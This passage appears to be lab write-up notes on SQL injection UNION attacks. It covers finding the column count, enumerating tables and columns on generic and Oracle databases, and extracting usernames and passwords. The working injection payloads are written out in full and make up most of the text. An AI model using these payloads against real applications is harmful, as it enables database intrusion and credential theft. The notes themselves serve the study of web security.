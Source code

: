 After veriying the columns same as before, you use this query to retrieve the list of tables of the DDBB:
`Gifts'UNION SELECT table_name,'DEF' FROM information_schema.tables-- -`

Here we can list all the tables. Then, we can see all the columns from a particular table, like this:

`'UNION SELECT column_name,null FROM information_schema.columns where table_name='users_abcdef'`

Here we'll see columns called password and username. Let's query directly that:
`'UNION SELECT username_abcde,password_abcde FROM users_abcdef`

---
### SQL injection attack, listing the database contents on Oracle

The same as before, but with this values:
`Lifestyle' UNION SELECT table_name,NULL FROM all_tables-- -`

`Lifestyle' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_ABCDEF'`

`Lifestyle' UNION SELECT USERNAME_GYAXJR,PASSWORD_HKWQYN FROM USERS_SPYXLY-- -`

---
### SQL injection UNION attack, determining the number of columns returned by the query

**UNION** is used to retrieve data from other tables within the database, for example:
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

For a UNION query to work, two key requirements must be met:
- The individual queries must return the same number of columns
- The data types in each column must be compatible between the individual queries

To meet this requirements, you need to find out:
- How many columns are being returned from the original query
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query

**Two methods for determining the number of columns required:**

**ORDER BY**
Inject `ORDER BY` until an error occurs.
```text
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

When the specified column index exceeds the number of actual columns in the result set, the database returns an error.

**UNION SELECT**
Inject `UNION SELECT` until you don't see an error.
```text
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
